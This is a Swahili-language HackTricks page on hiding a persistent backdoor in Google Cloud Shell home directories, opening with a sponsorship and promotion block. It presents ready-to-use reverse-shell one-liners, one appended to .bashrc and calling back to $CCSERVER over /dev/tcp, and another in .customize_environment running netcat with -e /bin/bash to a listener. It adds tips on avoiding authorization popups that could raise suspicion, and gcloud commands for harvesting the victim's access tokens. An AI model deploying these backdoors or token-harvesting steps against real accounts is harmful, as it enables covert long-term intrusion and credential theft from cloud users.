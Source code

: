 # GCP - Uhifadhi wa Cloud Shell

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* repos za github.

</details>

## Cloud Shell

Kwa habari zaidi angalia:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Mlango wa Nyuma wa Kudumu

[**Google Cloud Shell**](https://cloud.google.com/shell/) inakupa ufikiaji wa amri kwa rasilimali zako za wingu moja kwa moja kutoka kwenye kivinjari chako bila gharama yoyote inayohusiana.

Unaweza kupata Cloud Shell ya Google kutoka kwenye **konsoli ya wavuti** au kwa kukimbia **`gcloud cloud-shell ssh`**.

Konsoli hii ina uwezo wa kuvutia kwa wadukuzi:

1. **Mtumiaji yeyote wa Google mwenye ufikiaji wa Google Cloud** ana ufikiaji wa kipengele cha Cloud Shell kilichothibitishwa kabisa (Akaunti za Huduma zinaweza, hata ikiwa ni Wamiliki wa shirika).
2. Kipengele hicho kitas **kuhifadhi saraka yake ya nyumbani kwa angalau siku 120** ikiwa hakuna shughuli inayotokea.
3. Hakuna **uwezo wa shirika kufuatilia** shughuli ya kipengele hicho.

Hii kimsingi inamaanisha kwamba mdukuzi anaweza kuweka mlango wa nyuma kwenye saraka ya nyumbani ya mtumiaji na muda mrefu kama mtumiaji anajiunganisha kwenye GC Shell kila siku 120 angalau, mlango wa nyuma utaendelea kuwepo na mduduzi atapata kikao kila wakati unapoendeshwa tu kwa kufanya:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Kuna faili lingine katika folda ya nyumbani inayoitwa **`.customize_environment`** ambayo, ikiwepo, itatekelezwa **kila wakati** mtumiaji anapopata upatikanaji wa **cloud shell** (kama katika mbinu iliyopita). Ingiza mlango wa nyuma uliopita au moja kama ifuatavyo ili kudumisha uthabiti muda mrefu mtumiaji anapotumia "mara kwa mara" cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Ni muhimu kuzingatia kwamba **wakati kitendo kinachohitaji uthibitisho kinatekelezwa kwa mara ya kwanza**, dirisha la idhini linatokea kwenye kivinjari cha mtumiaji. Dirisha hili lazima lipokelewe kabla ya amri kuendeshwa. Ikiwa dirisha lisilotarajiwa litatokea, linaweza kuzua shaka na kuhatarisha njia ya uthabiti inayotumiwa.
{% endhint %}

Hii ni dirisha la idhini kutoka kwa kutekeleza `gcloud projects list` kutoka kwa ganda la wingu (kama mshambuliaji) ikionekana katika kikao cha mtumiaji wa kivinjari:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Walakini, ikiwa mtumiaji ametumia ganda la wingu kikamilifu, dirisha la idhini halitatokea na unaweza **kukusanya vibali vya mtumiaji na**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Jinsi uhusiano wa SSH unavyoundwa

Kimsingi, maombi haya 3 ya API hutumiwa:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (itakufanya uongeze funguo yako ya umma uliyounda kwa kienyeji)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (itakufanya uanzishe kipengee)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (itakwambia anwani ya IP ya ganda la Google Cloud)

Lakini unaweza kupata habari zaidi katika [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Marejeo

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
